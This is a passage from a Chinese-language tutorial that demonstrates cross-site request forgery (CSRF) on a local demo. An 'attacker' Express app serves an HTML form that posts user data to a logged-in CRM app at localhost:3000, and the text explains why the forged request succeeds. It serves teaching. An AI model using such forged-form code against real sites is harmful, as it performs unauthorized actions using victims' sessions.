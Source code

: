     在终端执行命令：

    ```shell
    node app.js
    ```

    浏览器访问`http://localhost:3000/cookie`实现登录，可点击添加用户信息实现新增功能

2. 新建attacker项目

    ```shell
    mkdir attacker && cd attacker && touch app.js index.html && npm init -y && npm i -D express
    ```

    app.js和indx.html添加如下内容：

    ```js
    // app.js
    const express = require('express')
    const app = express();
    const port = 4000

    app.use(express.static('./', { index: 'index.html' }));

    app.listen(port, () => console.log(`Example app listening on port ${port}!`))
    ```

    ```html
    // index.html
    <!DOCTYPE html>
    <html lang="en">
    <head>
        <meta charset="UTF-8">
        <meta name="viewport" content="width=device-width, initial-scale=1.0">
        <meta http-equiv="X-UA-Compatible" content="ie=edge">
        <title>Document</title>
    </head>
    <body>
        <form action="http://localhost:3000/users" method="post">
            <label for="username">用户名</label>
            <input type="text" id="username" name="username">

            <label for="age">年龄</label>
            <input type="text" id="age" name="age">
            <button type="submit">添加</button>
        </form>
    </body>
    </html>
    ```

    在终端执行命令：

    ```shell
    node app.js
    ```

浏览器访问`http://127.0.0.1:4000`并添加用户信息，切换到crm的`http://localhost:3000`会发现attacker上新增的 数据，原理就是attacker提交用户信息的地址是crm上的`http://localhost:3000/users`，由于crm已处理登录状态(cookie有值)，所以是可以提交成功的，这就是CSRF攻击的一个例子

